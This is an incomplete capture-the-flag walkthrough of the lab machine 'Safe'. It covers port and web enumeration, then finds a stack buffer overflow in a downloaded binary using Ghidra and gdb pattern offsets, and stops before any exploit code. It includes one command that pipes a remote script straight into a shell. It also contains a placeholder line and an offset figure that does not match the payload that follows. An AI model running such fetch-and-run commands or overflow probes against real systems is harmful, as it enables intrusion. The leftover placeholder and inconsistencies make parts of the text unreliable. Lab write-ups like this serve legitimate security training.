






---
search:
  exclude: true
---
# Safe Writeup

## Introduction :

Safe is an easy Linux box that was released back in July 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → nmap -F 10.10.10.147 --top-ports 10000 -vvv
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 16:08 GMT
      Initiating Ping Scan at 16:08
      Scanning 10.10.10.147 [2 ports]
      Completed Ping Scan at 16:08, 0.09s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 16:08
      Completed Parallel DNS resolution of 1 host. at 16:08, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:08
      Scanning 10.10.10.147 [8320 ports]
      Discovered open port 22/tcp on 10.10.10.147
      Discovered open port 80/tcp on 10.10.10.147
      Increasing send delay for 10.10.10.147 from 0 to 5 due to 57 out of 189 dropped probes since last increase.
      Connect Scan Timing: About 24.46% done; ETC: 16:10 (0:01:36 remaining)
      Connect Scan Timing: About 48.59% done; ETC: 16:10 (0:01:05 remaining)
      Increasing send delay for 10.10.10.147 from 5 to 10 due to max_successful_tryno increase to 4
      Discovered open port 1337/tcp on 10.10.10.147
      Connect Scan Timing: About 70.69% done; ETC: 16:10 (0:00:38 remaining)
      Increasing send delay for 10.10.10.147 from 10 to 20 due to max_successful_tryno increase to 5
      Completed Connect Scan at 16:11, 147.37s elapsed (8320 total ports)
      Nmap scan report for 10.10.10.147
      Host is up, received syn-ack (0.095s latency).
      Scanned at 2020-02-15 16:08:45 GMT for 148s
      Not shown: 8317 closed ports
      Reason: 8317 conn-refused
      PORT     STATE SERVICE REASON
      22/tcp   open  ssh     syn-ack
      80/tcp   open  http    syn-ack
      1337/tcp open  waste   syn-ack
    
      Read data files from: /usr/bin/../share/nmap
      Nmap done: 1 IP address (1 host up) scanned in 147.55 seconds
    
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → nmap -sCV -p22,80,1337 10.10.10.147
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-15 16:11 GMT
      Nmap scan report for 10.10.10.147
      Host is up (0.096s latency).
    
      PORT     STATE SERVICE VERSION
      22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
      | ssh-hostkey:
      |   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
      |   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
      |_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
      80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
      |_http-server-header: Apache/2.4.25 (Debian)
      |_http-title: Apache2 Debian Default Page: It works
      1337/tcp open  waste?
      | fingerprint-strings:
      |   DNSStatusRequestTCP:
      |     10:13:12 up 4 min, 0 users, load average: 0.00, 0.02, 0.00
      |   DNSVersionBindReqTCP:
      |     10:13:07 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |   GenericLines:
      |     10:12:55 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |     What do you want me to echo back?
      |   GetRequest:
      |     10:13:02 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |     What do you want me to echo back? GET / HTTP/1.0
      |   HTTPOptions:
      |     10:13:02 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |     What do you want me to echo back? OPTIONS / HTTP/1.0
      |   Help:
      |     10:13:17 up 4 min, 0 users, load average: 0.00, 0.02, 0.00
      |     What do you want me to echo back? HELP
      |   NULL:
      |     10:12:55 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |   RPCCheck:
      |     10:13:02 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |   RTSPRequest:
      |     10:13:02 up 3 min, 0 users, load average: 0.00, 0.02, 0.00
      |     What do you want me to echo back? OPTIONS / RTSP/1.0
      |   SSLSessionReq, TLSSessionReq, TerminalServerCookie:
      |     10:13:18 up 4 min, 0 users, load average: 0.00, 0.02, 0.00
      |_    What do you want me to echo back?
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port1337-TCP:V=7.80%I=7%D=2/15%Time=5E481843%P=x86_64-pc-linux-gnu%r(NU
      SF:LL,3E,"\x2010:12:55\x20up\x203\x20min,\x20\x200\x20users,\x20\x20load\x
      SF:20average:\x200\.00,\x200\.02,\x200\.00\n")%r(GenericLines,63,"\x2010:1
      SF:2:55\x20up\x203\x20min,\x20\x200\x20users,\x20\x20load\x20average:\x200
      SF:\.00,\x200\.02,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
      SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2010:13:02\x20up\x203\x20min,
      SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\.0
      SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
      SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2010:13:02\x20up\x203\x20min,\
      SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\.00
      SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
      SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2010:13:02\x20up\x203\x20mi
      SF:n,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\
      SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
      SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2010:13:02\x20up\x203\x20mi
      SF:n,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\
      SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2010:13:07\x20up\x203\x20min,\x20\
      SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\.00\n")
      SF:%r(DNSStatusRequestTCP,3E,"\x2010:13:12\x20up\x204\x20min,\x20\x200\x20
      SF:users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\.00\n")%r(Help,
      SF:67,"\x2010:13:17\x20up\x204\x20min,\x20\x200\x20users,\x20\x20load\x20a
      SF:verage:\x200\.00,\x200\.02,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
      SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2010:13:18
      SF:\x20up\x204\x20min,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
      SF:,\x200\.02,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
      SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2010:13:18\x20up\
      SF:x204\x20min,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
      SF:.02,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
      SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2010:13:18\x20up\x204\x20min,\x20\x
      SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.02,\x200\.00\n\nW
      SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 95.74 seconds
    

## **Part 2 : Getting User Access**

the text goes here
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → nikto -h http://10.10.10.147/
      - Nikto v2.1.6
      ---------------------------------------------------------------------------
      + Target IP:          10.10.10.147
      + Target Hostname:    10.10.10.147
      + Target Port:        80
      + Start Time:         2020-02-15 16:33:18 (GMT0)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.25 (Debian)
      + The anti-clickjacking X-Frame-Options header is not present.
      + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
      + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
      + No CGI Directories found (use '-C all' to force check all possible dirs)
      + Server may leak inodes via ETags, header found with file /, inode: 2a23, size: 588c4cc4e54b5, mtime: gzip
      + Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
      + Allowed HTTP Methods: POST, OPTIONS, HEAD, GET
      + OSVDB-3092: /manual/: Web server manual found.
      + OSVDB-3268: /manual/images/: Directory indexing found.
      + OSVDB-3233: /icons/README: Apache default file found.
      + 7863 requests: 0 error(s) and 9 item(s) reported on remote host
      + End Time:           2020-02-15 16:46:54 (GMT0) (816 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested
    

Let's run dirsearch to see which directories we can find :
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → dirsearch -u http://10.10.10.147/ -e php,html,txt,js
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, html, txt, js | HTTP method: get | Threads: 10 | Wordlist size: 7126
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-16_08-32-43.log
    
      Target: http://10.10.10.147/
    
      [08:32:44] Starting:
      [08:32:46] 403 -  298B  - /.ht_wsr.txt
      [08:32:46] 403 -  291B  - /.hta
      [08:32:46] 403 -  300B  - /.htaccess-dev
      [08:32:46] 403 -  302B  - /.htaccess-local
      [08:32:46] 403 -  302B  - /.htaccess-marco
      [08:32:46] 403 -  300B  - /.htaccess.BAK
      [08:32:46] 403 -  301B  - /.htaccess.bak1
      [08:32:46] 403 -  301B  - /.htaccess.orig
      [08:32:46] 403 -  300B  - /.htaccess.old
      [08:32:46] 403 -  303B  - /.htaccess.sample
      [08:32:46] 403 -  301B  - /.htaccess.save
      [08:32:46] 403 -  300B  - /.htaccess.txt
      [08:32:46] 403 -  302B  - /.htaccess_extra
      [08:32:46] 403 -  301B  - /.htaccess_orig
      [08:32:46] 403 -  299B  - /.htaccess_sc
      [08:32:46] 403 -  299B  - /.htaccessBAK
      [08:32:46] 403 -  300B  - /.htaccessOLD2
      [08:32:46] 403 -  299B  - /.htaccessOLD
      [08:32:46] 403 -  295B  - /.htgroup
      [08:32:46] 403 -  297B  - /.htaccess~
      [08:32:47] 403 -  300B  - /.htpasswd-old
      [08:32:47] 403 -  301B  - /.htpasswd_test
      [08:32:47] 403 -  297B  - /.htpasswds
      [08:32:47] 403 -  295B  - /.htusers
      [08:33:29] 200 -   11KB - /index.md
      [08:33:34] 200 -  626B  - /manual/index.md
      [08:33:34] 301 -  313B  - /manual  ->  http://10.10.10.147/manual/
      [08:33:47] 403 -  300B  - /server-status
      [08:33:47] 403 -  301B  - /server-status/
    
      Task Completed
    

Looking at the sourcecode of http://10.10.10.147 we see something commented out mentionning a binary named "myapp" running on port 1337.

Let's first download the binary locally, at http://10.10.10.147/myapp 

Let's navigate to http://10.10.10.147:1337 to see it running.

    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → ls
      myapp
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → file myapp
      myapp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fcbd5450d23673e92c8b716200762ca7d282c73a, not stripped
    

Looks like we are looking at a Return Oriented Programming (ROP) binary challenge, which is a Buffer Overflow based challenge. let's fire up gdb on myapp to see what we can do with it.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → chmod +x myapp
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Safe]
      → gdb ./myapp
      GNU gdb (Debian 8.3.1-1) 8.3.1
      Copyright (C) 2019 Free Software Foundation, Inc.
      License GPLv3+: GNU GPL version 3 or later 
      This is free software: you are free to change and redistribute it.
      There is NO WARRANTY, to the extent permitted by law.
      Type "show copying" and "show warranty" for details.
      This GDB was configured as "x86_64-linux-gnu".
      Type "show configuration" for configuration details.
      For bug reporting instructions, please see:
      .
      Find the GDB manual and other documentation resources online at:
          .
    
      For help, type "help".
      Type "apropos word" to search for commands related to "word"...
      Reading symbols from ./myapp...
      (No debugging symbols found in ./myapp)
      (gdb) r
      Starting program: /home/nihilist/_HTB/Safe/myapp
      [Detaching after vfork from child process 10840]
       08:58:30 up 15:20,  1 user,  load average: 0.93, 0.87, 0.79
    
      What do you want me to echo back? A
      A
      [Inferior 1 (process 10836) exited normally]
      (gdb) r
      Starting program: /home/nihilist/_HTB/Safe/myapp
      [Detaching after vfork from child process 10843]
       08:58:42 up 15:20,  1 user,  load average: 0.86, 0.85, 0.78
    
      What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
      [Inferior 1 (process 10842) exited normally]
      (gdb) r
      Starting program: /home/nihilist/_HTB/Safe/myapp
      [Detaching after vfork from child process 10849]
       08:59:03 up 15:20,  1 user,  load average: 0.61, 0.80, 0.77
    
      What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    
      Program received signal SIGSEGV, Segmentation fault.
      0x00000000004011ac in main ()
    

Basically we need 500 As to crash the program. let's see if it still crashes if we create a pattern. While we can continue in gdb-peda, for this example we'll proceed in Ghidra to illustrate what the binary does.
    
    
      >unzip ghidra into /opt
      >sudo /opt/ghidra_9.1.1_PUBLIC/ghidraRun
      >Create project in /home/nihilist/_HTB/Safe/Ghidra/
      >project name myapp > finish
    
      >File > Import file > myapp
      >analyze it
      >select all
      >analyze
    
      >symbol tree
      >functions
      >main
    
    

    
    
      undefined8 main(void)
    
      {
        char local_78 [112];
    
        system("/usr/bin/uptime");
        printf("\nWhat do you want me to echo back? ");
        gets(local_78);
        puts(local_78);
        return 0;
      }
    

our main function here assigns a variable 112 bytes, which then executes system passing /usr/bin/uptime as that call, That is why we can see it run on port 1337, running uptime in our terminal shows up the same thing. Once it is done running the uptime binary, it does a **gets()** and a **puts()**

From here we can see that if we put in more than 112 bytes, we will end up overflowing the buffer and getting overwrites 
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
    
    λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → gdb -q myapp
    GEF for linux ready, type `gef' to start, `gef config' to configure
    76 commands loaded for GDB 8.3.1 using Python engine 3.7
    [*] 4 commands could not be loaded, run `gef missing` to know why.
    Reading symbols from myapp...
    (No debugging symbols found in myapp)
    gef➤ r
    

back into gdb, we need gef's additional options to create patterns to identify what we can do with the buffer overflow. 
    
    
      gef➤  r
    Starting program: /home/nihilist/_HTB/Safe/Ghidra/myapp
    [Detaching after vfork from child process 13738]
     09:45:31 up 16:07,  1 user,  load average: 1.14, 1.08, 1.10
    
    What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    
    Program received signal SIGSEGV, Segmentation fault.
    0x00000000004011ac in main ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x0
    $rbx   : 0x0
    $rcx   : 0x00007ffff7edc904  →  0x5477fffff0003d48 ("H="?)
    $rdx   : 0x00007ffff7fad580  →  0x0000000000000000
    $rsp   : 0x00007fffffffe438  →  "AAAAAAAA"
    $rbp   : 0x4141414141414141 ("AAAAAAAA"?)
    $rsi   : 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
    $rdi   : 0x0
    $rip   : 0x00000000004011ac  →  <****main+77> ret
    $r8    : 0x81
    $r9    : 0x4141414141414141 ("AAAAAAAA"?)
    $r10   : 0x4141414141414141 ("AAAAAAAA"?)
    $r11   : 0x246
    $r12   : 0x0000000000401070  → <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe510  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffe438│+0x0000: "AAAAAAAA"	 ← $rsp
    0x00007fffffffe440│+0x0008: 0x0000000000000000
    0x00007fffffffe448│+0x0010: 0x00007fffffffe518  →  0x00007fffffffe774  →  "/home/nihilist/_HTB/Safe/Ghidra/myapp"
    0x00007fffffffe450│+0x0018: 0x0000000100400000
    0x00007fffffffe458│+0x0020: 0x000000000040115f  →  <****main+0> push rbp
    0x00007fffffffe460│+0x0028: 0x0000000000000000
    0x00007fffffffe468│+0x0030: 0xad7b338534175b70
    0x00007fffffffe470│+0x0038: 0x0000000000401070  → <_start+0> xor ebp, ebp
    ───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x4011a1 <****main+66>        call   0x401030 <****puts@plt>
         0x4011a6 <****main+71>        mov    eax, 0x0
         0x4011ab <****main+76>        leave
     →   0x4011ac <****main+77>        ret
    [!] Cannot disassemble from $PC
    ───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "myapp", stopped, reason: SIGSEGV
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x4011ac → main()
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤

From there, we can see that putting in more than 112 bytes (in this example, 128 bytes) we are able to cause a segfault, However we need to see where exactly we crash. So we create a pattern, paste it in, and see where exactly do we crash
    
    
      gef➤  pattern create 200
    [+] Generating a pattern of 200 bytes
    aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
    [+] Saved as '$_gef0'
    gef➤  r
    Starting program: /home/nihilist/_HTB/Safe/Ghidra/myapp
    [Detaching after vfork from child process 13856]
     09:49:26 up 16:11,  1 user,  load average: 1.01, 0.98, 1.05
    
    What do you want me to echo back? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
    aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
    
    Program received signal SIGSEGV, Segmentation fault.
    0x00000000004011ac in main ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x0
    $rbx   : 0x0
    $rcx   : 0x00007ffff7edc904  →  0x5477fffff0003d48 ("H="?)
    $rdx   : 0x00007ffff7fad580  →  0x0000000000000000
    $rsp   : 0x00007fffffffe438  →  "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"
    $rbp   : 0x616161616161616f ("oaaaaaaa"?)
    $rsi   : 0x00000000004052a0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
    $rdi   : 0x0
    $rip   : 0x00000000004011ac  →  <****main+77> ret
    $r8    : 0xc9
    $r9    : 0x6161616161616176 ("vaaaaaaa"?)
    $r10   : 0x6161616161616177 ("waaaaaaa"?)
    $r11   : 0x246
    $r12   : 0x0000000000401070  → <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe510  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffe438│+0x0000: "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"	 ← $rsp
    0x00007fffffffe440│+0x0008: "qaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawa[...]"
    0x00007fffffffe448│+0x0010: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"
    0x00007fffffffe450│+0x0018: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
    0x00007fffffffe458│+0x0020: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
    0x00007fffffffe460│+0x0028: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
    0x00007fffffffe468│+0x0030: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
    0x00007fffffffe470│+0x0038: "waaaaaaaxaaaaaaayaaaaaaa"
    ───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x4011a1 <****main+66>        call   0x401030 <****puts@plt>
         0x4011a6 <****main+71>        mov    eax, 0x0
         0x4011ab <****main+76>        leave
     →   0x4011ac <****main+77>        ret
    [!] Cannot disassemble from $PC
    ───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "myapp", stopped, reason: SIGSEGV
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x4011ac → main()
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

In order to be more precise, let's use the registers function to see the details of our buffer overflow 
    
    
    gef➤  registers
    $rax   : 0x0
    $rbx   : 0x0
    $rcx   : 0x00007ffff7edc904  →  0x5477fffff0003d48 ("H="?)
    $rdx   : 0x00007ffff7fad580  →  0x0000000000000000
    $rsp   : 0x00007fffffffe438  →  "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"
    $rbp   : 0x616161616161616f ("oaaaaaaa"?)
    $rsi   : 0x00000000004052a0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
    $rdi   : 0x0
    $rip   : 0x00000000004011ac  →  <****main+77> ret
    $r8    : 0xc9
    $r9    : 0x6161616161616176 ("vaaaaaaa"?)
    $r10   : 0x6161616161616177 ("waaaaaaa"?)
    $r11   : 0x246
    $r12   : 0x0000000000401070  → <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe510  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0
    $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    
    gef➤  pattern search $rsp
    [+] Searching '$rsp'
    [+] Found at offset 120 (little-endian search) likely
    [+] Found at offset 113 (big-endian search)
    

Looks like we have found our pattern at offset 120 (little-endian format) and at offset 113 (big-endian format) Let's hand-craft a pattern of 120 Xs, 8 Ys and 8 Zs
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → python -c 'print "X"*128 + "Y"*8 + "Z"*8'
